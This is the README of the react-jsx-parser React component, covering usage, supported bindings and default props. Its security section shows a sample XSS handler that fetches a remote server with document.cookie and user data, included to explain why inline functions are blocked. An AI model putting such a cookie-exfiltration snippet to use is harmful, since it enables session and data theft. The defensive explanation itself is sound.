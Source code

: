 # react-jsx-parser [![CircleCI][circle-ci-badge]](https://circleci.com/gh/TroyAlford/react-jsx-parser) [![Version][npm-version]][npm-link] [![NPM Downloads][npm-downloads]][npm-link] [![License][npm-license]](https://github.com/TroyAlford/react-jsx-parser/blob/master/LICENSE)

[circle-ci-badge]: https://img.shields.io/circleci/project/github/TroyAlford/react-jsx-parser/master.svg
[npm-version]: https://img.shields.io/npm/v/react-jsx-parser.svg
[npm-downloads]: https://img.shields.io/npm/dt/react-jsx-parser.svg
[npm-license]: https://img.shields.io/npm/l/react-jsx-parser.svg
[npm-link]: https://www.npmjs.com/package/react-jsx-parser

A React component which can parse JSX and output rendered React Components.

## Basic Usage - Injecting JSX as a String
```javascript
import React from 'react'
import JsxParser from 'react-jsx-parser'
import Library from 'some-library-of-components'

class InjectableComponent extends Component {
  static defaultProps = {
    eventHandler: () => {}
  }
  // ... inner workings of InjectableComponent
}

const MyComponent = () => (
  <JsxParser
    bindings={{
      foo: 'bar',
      myEventHandler: () => { /* ... do stuff ... */ },
    }}
    components={{ InjectableComponent, Library }}
    jsx={`
      <h1>Header</h1>
      <InjectableComponent eventHandler={myEventHandler} truthyProp />
      <Library.SomeComponent someProp={foo} calc={1 + 1} stringProp="foo" />
    `}
  />
)
```

Because `InjectableComponent` is passed into the `JsxParser.props.components` prop, it is treated as a known element
type, and created using `React.createElement(...)` when parsed out of the JSX. You can also pass in a whole collection
of components, as shown by the `Library` binding, and then access the individual items with `LibraryName.ComponentName`.

Finally, a note about property bindings. The `JsxParser` can handle several types of binding:
 - implicit `true` bindings, such as `<InjectableComponent truthyProp />` (equivalent to `truthyProp={true}`)
 - string-value binding, such as `stringProp="foo"`
 - expression-binding, such as `calc={1 + 1}`
 - named-value binding, such as `eventHandler={myEventHandler}` (note that this requires a match in `bindings`)

The component **_does not_** support inline function declarations, such as:
 - `onClick={function (event) { /* do stuff */ }}`, or
 - `onKeyPress={event => { /* do stuff */}}`

This is to prevent inadvertent XSS attack vectors. Since the primary use of this component is to allow JSX to be stored server-side, and then late-interpreted at the client-side, this restriction prevents a malicious user from stealing info by executing a situation like:
```javascript
<JsxParser
  bindings={{ userInfo: { private: 'data' } }}
  onClick={() => {
    fetch('/some/remote/server', {
      body: JSON.stringify({ cookies: document.cookie, userInfo })
    })
  }}
/>
```

## Advanced Usage - Injecting Dynamic JSX
```javascript
// Import desired set of components
import { ComponentA, ComponentB } from 'somePackage/Components'
import ComponentC from 'somePackage/ComponentC'
import ComponentD from 'somePackage/ComponentD'
...
// Load an HTML or XML fragment from a remote API
const dynamicHtml = loadRemoteData()
...
// Within your component's render method, bind these components and the fragment as props
<JsxParser
  bindings={bindings}
  components={{ ComponentA, ComponentB, ComponentC, ComponentD }}
  jsx={dynamicHtml}
/>
```

Any `ComponentA`, `ComponentB`, `ComponentC` or `ComponentD` tags in the dynamically loaded XML/HTML fragment will be rendered as React components. Any unrecognized tags will be handled by `React`.

_Note:_ Non-standard tags may throw errors and warnings, but will typically be rendered in a reasonable way.

## PropTypes / Settings
```javascript
JsxParser.defaultProps = {
  // if false, unrecognized elements like <foo> are omitted and reported via onError
  allowUnknownElements: true, // by default, allow unrecognized elements

  bindings: {}, // by default, do not add any additional bindings

  // by default, just removes `on*` attributes (onClick, onChange, etc.)
  // values are used as a regex to match property names
  blacklistedAttrs: [/^on.+/i],

  blacklistedTags:  ['script'], // by default, removes all <script> tags

  className: '', // space-delimited classes to add to wrapper (ignored if renderInWrapper=false)

  components: {}, // an object map of component tag-names to their definitions - see above
  // components must extend React.Component, React.PureComponent, or be a Function

  componentsOnly: false, // non-component HTML tags are allowed by default, omitted if true

  disableFragments: false, // if true, React <Fragment />s will not be used.
  // Note: This introduces subtle errors with regard to white-space, and is provided only for
  // backward compatibility with React 15.x

  disableKeyGeneration: false, // if true, rendering will not automatically generate `key` props.
  // Note: This may result in the "Child elements should have a unique 'key' prop " React error.

  jsx: '', // the jsx string to be parsed & rendered

  onError: () => {}, // if specified, any rendering errors are reported via this method

  showWarnings: false, // if true showWarnings, rendering errors are output with console.warn

  renderError: undefined, // if specified, this function can be used to render errors as a fallback

  renderInWrapper: true, // if false, the HTML output will have no <div> wrapper

  renderUnrecognized: tagName => null, // unrecognized tags are rendered via this method
}
```
